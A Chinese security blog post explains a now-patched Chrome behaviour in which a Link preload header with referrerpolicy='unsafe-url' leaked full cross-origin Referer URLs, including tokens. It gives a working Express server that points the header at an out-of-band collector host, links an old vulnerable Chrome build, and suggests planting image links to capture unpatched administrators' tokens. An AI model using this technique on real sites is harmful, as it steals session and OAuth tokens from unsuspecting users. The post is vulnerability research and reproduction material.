 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIzMDM2MjY5NA==&mid=2247484336&idx=1&sn=be05aaff95bac7ab6b6560a3a207d01c

#  chrome “0day”讲解一二  
原创 testbywlp  安全边角料   2025-06-23 09:37  
  
- 前文  
  
    想写这篇文章已经很久很久了，感觉快拖一个月之久，今天刚好有时间将这篇文章输出一下，供大家参考。  
- 正文  
  
    事情的起因还得从x说起，有个人在x上发表了一篇推文，说他发现了一个chrome不为人知的特性，整个过程分为三步走，  
  
第一步插入一个img标签  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUKX7qxODbHFWic96aBIsNmwcl4k4GxZNBcg02ict4xNaoTXibrCO2t8ncg/640?from=appmsg "")  
  
第二步部署img src属性服务器，可以看到作者进行了特殊操作  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUrcVsJYtyGZlGobeEvaUQByVIh8O4M8iaZdbnILDxQz0B0aa6EmOuHRA/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
  
通过img标签访问返回特殊头  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUadAX3GIQQt65GTslpOUbygdSliaJCt8yLOicXp9LXzJx2MJ52drC6lbg/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
  
第三步客户端访问图片时携带完整的referer信息  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUuSHSCPb8fClNpcGLticMcEBBJ0x8DscIXASiaUnQjDvB3rnejJ0aWnWg/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
- 疑问  
  
    写到这里你是不是在想，这什么脏东西？有什么用吗？我劝你别急，冷静, 冷静, 再冷静  
- 循序渐进  
  
    我们需要明白作者干了什么？他如何做到的？他绕过了哪些chrome的防护策略？  
- 做了什么  
  
    他通过类似img 的src属性值注入在跨域情况下拿到了系统的完整referer  
  
    是不是觉得这个事很简单？事实真的事如此吗？一般情况下，如果我们想拿跨域referer是否就能随便拿，不是哦；如果我们跨域加载一张图片，那么这个图片的referer会时这样的，只会发送三个元素，协议，主机名以及端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUgSfLws6DuibSzBDoibTsDTjMb6Bib3cvBmepYLhpDEjMPAnicOGiaQd8JSQ/640?wx_fmt=png&from=appmsg "")  
  
为什么我访问的明明是  
  
http://127.0.0.1/test1.html?token=aduahduahdaydyadad   
，但是跨域加载图片的时候referer却变成了  
http://127.0.0.1/，这就是浏览器的安全机制，因为图片加载跨域随处可见, 如果在加载三方图片的时候携带完整的referer，就有可能泄露敏感信息  
  
这就引出了第二个问题，同源加载图片会携带完整referer吗？答案是会的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUA11q8zlxiaflUS8U1pMEEKfMibxribonN5EyFGG7rIwdwdcQTRPBFncYA/640?wx_fmt=png&from=appmsg "")  
  
接着如果研发设置no-referer呢？那就不会发送referer头  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUI8xY6NiaQicFYicGYls5vttFAQibeNmZmekgNEAYETiaxGRLno9lJTyNCNg/640?wx_fmt=png&from=appmsg "")  
  
当设置referrerpolicy="unsafe-url"的时候，在chrome浏览器中会强制携带完整referer参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUJADZ1vjqeKRokkd75UMjtsBTBiccDYhWLvC0P8FU1gsj27dSPXY3BSw/640?wx_fmt=png&from=appmsg "")  
  
    到这里应该大致明白了，就是作者绕过了默认情况下跨域的referer限制，通过注入img标签的src属性值成功拿到了完整的referer参数，这其实是一个很厉害的成果，让谷歌自己的策略相互矛盾  
- 复现  
  
    作者是怎么做到的呢？接下来我们一步一步复现来查看他的具体过程，首先我们需要一个nodejs写的服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYicicDLcibtFvEMBSPH2Ftz34S95Mup9VSDJXoJzwXDgtN0XIjDzOiaEemw/640?wx_fmt=png&from=appmsg "")  
  
为了方便大家直接使用，直接放代码  

```
const express = require('express');
const app = express();
const port = 9999;
const path = require('path');
app.get('/image.jpg', (req, res) => {
    res.setHeader('Link', '<http://apgflqrehhviutnoxzqzkj9l1df93rt8g.oast.fun/log>;rel=&#34;preload&#34;; as=&#34;image&#34;; referrerpolicy=&#34;unsafe-url&#34;');
    res.sendFile(path.join(__dirname, 'logo.jpg'));
});
app.get('/log', (req, res) => {
    console.log(req.headers['referer']);
    res.send('Hi!');
});
app.listen(port, () => {
    console.log(`Server running at http://localhost:${port}`);
});
```

  
html页面代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYJMh6m0azqLadiahhKpnzSPGic6A6taQHX6OZhmpAkfPIxvicwdXX0uV4A/640?wx_fmt=png&from=appmsg "")  
  
    在最新版本chrome打开试试效果，可以看到Link确实被访问了，但是并没有带referer啊  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYoxUeB9VGO5ibCos09eoNSfAu8CNp6rsnYkLiak44Rv9jwvYND41WEoIQ/640?wx_fmt=png&from=appmsg "")  
  
不仅仅通过ip，也通过域名尝试并未发现携带完整referer的情况  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFY3hz1a8PwkrfTdyZKjCUKQmq9CcDTxKxI9QVbPVg4zAdqeIVaB6ynWQ/640?wx_fmt=png&from=appmsg "")  
  
这就让我有点好奇了，有没有可能被修复了，所以就去寻找官方的发布文档，终于找到了被修复的证据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYibYTXDqlOGPXiapmfcSN51xjkN4nDatm9BhzYIrT6c8bbPy8DwVUmLYQ/640?wx_fmt=png&from=appmsg "")  
  
可能有些人会问，TBD是什么意思，别的漏洞都给美刀，这个为啥是TBD？难道是一种新的货币？不是的，TBD的意思是  
To Be Determined，  
中文意思是待确定赏金。  
  
到这一步了，我们就知道该如何去复现这个0day漏洞，需要下载一个  
136.0.7103.1  
02版本之前的chrome浏览器，链接放在下面了  
  
https://google-chrome.cn.uptodown.com/windows/download/1071177372  
  
    访问图片返回link头  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYOAibs3IxP6IqgRZ5oDaTuxCfhjyo4iaj3aqkPGSNgMNoB6zfZg0dgIIA/640?wx_fmt=png&from=appmsg "")  
  
    访问link成功获取token  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYJ7TJsymcU0f8ZTEpg5gazyMibcI22LaqXRbESywNrgCTc60Ipd5VmSQ/640?wx_fmt=png&from=appmsg "")  
- 场景  
  
    既然这个0day存在，那么利用场景应该是我们需要去考虑的。现在回头想想，我们以前挖到img的src属性值注入都是怎么利用的？目前已知的可能就这么几种：  
- src属性值插入系统退出链接，这种只能对GET请求起作用，危害的话就是访问图片退出系统  
  
- 插入自己的服务器上的图片，有些系统在访问图片时会携带TOKEN、authoraztion等认证头  
  
    而这个漏洞的出现给了我们更多的选择性，可能有人会说最新版本已经修复了，但是不能所有人都更新了吧，如果你能给管理员用户提交审核时伪造资料图片链接地址，在他没更新浏览器的情况下是不是能拿到他的referer，如果再运气好，拿到token类似的岂不是发了。  
  
除了上述没有更新chrome浏览器的情况之外，可以考虑下移动端，因为很多浏览器都是基于chrome的内核来改的，或许就会支持它的一些特性  
- 实践  
  
    国外小哥通过这个漏洞拿到token  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYXxACwj3Rib7azdwazxUu0kOIS900x0HqxMeG8jD6s7QvCNK9ubtqZIA/640?wx_fmt=png&from=appmsg "")  
  
另一个人则发现相似的利用手段  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFY8rdXorH7rzC9VDZWQg3DPMbMv679vmXibDmkTzzibJbID2QcwQD7jjgg/640?wx_fmt=png&from=appmsg "")  
- 参考文章  
  
https://blog.voorivex.team/leaking-oauth-token-via-referrer-leakage  
  
